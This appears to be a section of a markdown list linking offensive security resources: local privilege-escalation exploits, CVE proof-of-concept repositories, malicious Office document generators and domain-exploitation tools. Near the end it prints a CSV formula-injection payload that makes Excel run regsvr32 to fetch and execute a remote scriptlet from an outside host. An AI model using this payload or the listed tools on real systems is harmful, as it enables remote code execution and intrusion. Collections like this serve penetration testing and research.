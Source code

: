 
### Local
* LARE - [L]ocal [A]uto [R]oot [E]xploiter is a Bash Script That Helps You Deploy Local Root Exploits - http://www.kitploit.com/2017/06/lare-local-auto-root-exploiter-is-bash.html / https://github.com/EnigmaDimitri/LARE
* Gain Command Prompt Access via MsPaint https://infamoussyn.com/2013/03/19/gain-command-prompt-access-via-mspaint/
* Create LNK files to exploit CVE-2017-8464 aka LNK round 3  https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Export-LNKPwn.ps1
* WSH Injection: A Case Study https://posts.specterops.io/wsh-injection-a-case-study-fd35f79d29dd
* Abusing Token Privileges For Windows Local Privilege Escalation https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/ https://github.com/hatRiot/token-priv
* EvilAbigail - Automated Linux Evil Maid Attack - Initrd encrypted root fs attack http://www.kitploit.com/2017/08/evilabigail-automated-linux-evil-maid.html https://github.com/GDSSecurity/EvilAbigail
* Certutil for delivery of files http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html https://github.com/harleyQu1nn/AggressorScripts/blob/master/CertUtilWebDelivery.cna https://gist.github.com/rsmudge/629bd4ddce3bbbca1f8c16378a6a419c https://twitter.com/subTee/status/888071631528235010 or https://github.com/re4lity/subTee-gits-backups
* https://github.com/0xdea/exploits Vuln AIX, Linux, MySQL, Oracle, Solaris et Divers
* Remote Recon and Collection (RemoteRecon provides the ability to execute post-exploitation capabilities against a remote host, without having to expose your complete toolkit/agent.) https://github.com/xorrior/RemoteRecon
* CVE-2017-8759-Exploit-sample https://github.com/Voulnet/CVE-2017-8759-Exploit-sample Word macro runs in the Doc1.doc file. The macro downloads a badly formatted txt file over wsdl, which triggers the WSDL parser log. Then the parsing log results in running mshta.exe which in turn runs a powershell commands that runs mspaint.exe
* CVE-2017-8759 - A vulnerability in the SOAP WDSL parser. https://github.com/vysec/CVE-2017-8759 https://www.mdsec.co.uk/2017/09/exploiting-cve-2017-8759-soap-wsdl-parser-code-injection/
* https://github.com/WindowsExploits/Exploits
* Hook ActivationContext. This is simple tool to hook and force process to load redirected DLL. https://github.com/deroko/activationcontexthook
* This Powershell script will generate a malicious Microsoft Office document with a specified payload and persistence method. https://github.com/enigma0x3/Generate-Macro
* Auto Domain Admin and Network Exploitation (autoDANE). Auto DANE attempts to automate the process of exploiting, pivoting and escalating privileges on windows domains https://github.com/sensepost/autodane 
* NtUserDefSetText() in Windows 10 will panic if you set the ansi flag incorrectly. https://gist.github.com/taviso/9e673add738de0da6534cbd20e705d3b
* A Look at CVE-2017-8715: Bypassing CVE-2017-0218 using PowerShell Module Manifests https://posts.specterops.io/a-look-at-cve-2017-8715-bypassing-cve-2017-0218-using-powershell-module-manifests-1f811aea858c
* Exim RCE POC
	* https://twitter.com/essobi/status/934581519104045056
	* https://t.co/05p4uMJNAb
* This is a CSV and ... https://ghostbin.com/paste/qgd7g
```
filleasdrText1,fillasderText2,fillasderText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.1.1/SaTLauncher.sct scrobj.dll'!''
```
* CVE-2017-5123 [GitHub](https://github.com/Synacktiv/exploiting-cve-2017-5123)
